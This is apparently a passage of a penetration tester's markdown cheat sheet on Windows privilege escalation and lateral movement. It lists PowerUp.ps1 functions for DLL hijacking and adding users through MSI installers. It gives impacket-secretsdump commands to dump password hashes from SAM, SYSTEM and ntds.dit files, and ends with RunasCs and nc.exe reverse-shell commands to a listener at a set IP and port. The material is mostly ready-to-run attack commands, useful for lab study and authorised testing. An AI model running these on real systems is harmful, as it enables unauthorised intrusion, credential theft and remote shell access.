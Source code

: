```
Find-PathDLLHijack                  -   finds service %PATH% DLL hijacking opportunities
Write-HijackDll                     -   writes out a hijackable DLL
Registry Checks:
Get-RegistryAlwaysInstallElevated   -  checks if the AlwaysInstallElevated registry key is set
Get-RegistryAutoLogon               -   checks for Autologon credentials in the registry
Get-ModifiableRegistryAutoRun       -   checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns
Miscellaneous Checks:
Get-ModifiableScheduledTaskFile     -   find schtasks with modifiable target files
Get-UnattendedInstallFile           -   finds remaining unattended installation files
Get-Webconfig                       -   checks for any encrypted web.config strings
Get-ApplicationHost                 -   checks for encrypted application pool and virtual directory passwords
Get-SiteListPassword                -   retrieves the plaintext passwords for any found McAfee's SiteList.xml files
Get-CachedGPPPassword               -   checks for passwords in cached Group Policy Preferences files
Other Helpers/Meta-Functions:
Get-ModifiablePath                  -   tokenizes an input string and returns the files in it the current user can modify
Get-CurrentUserTokenGroupSid        -   returns all SIDs that the current user is a part of, whether they are disabled or not
Add-ServiceDacl                     -   adds a Dacl field to a service object returned by Get-Service
Set-ServiceBinPath                  -   sets the binary path for a service to a specified value through Win32 API methods
Test-ServiceDaclPermission          -   tests one or more passed services or service names against a given permission set
Write-UserAddMSI                    -   write out a MSI installer that prompts for a user to be added
Invoke-AllChecks                    -   runs all current escalation checks and returns a report

Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
##### Windows.old
>Essentially, the Windows.old folder just contains the old Windows system. From the Windows system files to your installed programs and each user account’s settings and files, it’s all here. The new version of Windows just keeps it around in case you’d like to go back to that older version of Windows or in case you need to dig in and find a file.
```
1. Find SAM and SYSTEM file under Windows.old\Windows\System32\
2. download to kali
3. impacket-secretsdump -sam SAM -system SYSTEM local
```
### ntds.dit
```
impacket-secretsdump -ntds /home/kali/Desktop/Active\ Directory/ntds.dit -system /home/kali/Desktop/registry/SYSTEM local
```
##### Check Compressed files
```
check zip,gz,7z,stix,rar files
```
##### Runascs to lateral move 
```
runascs.exe username password powershell.exe -r lhost:lport
nc -nlvp 7777
RunasCs.exe svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.167 4444 -e cmd.exe"
```
##### Powershell to get interactive shell as another user
```
ps > $env:ComputerName
```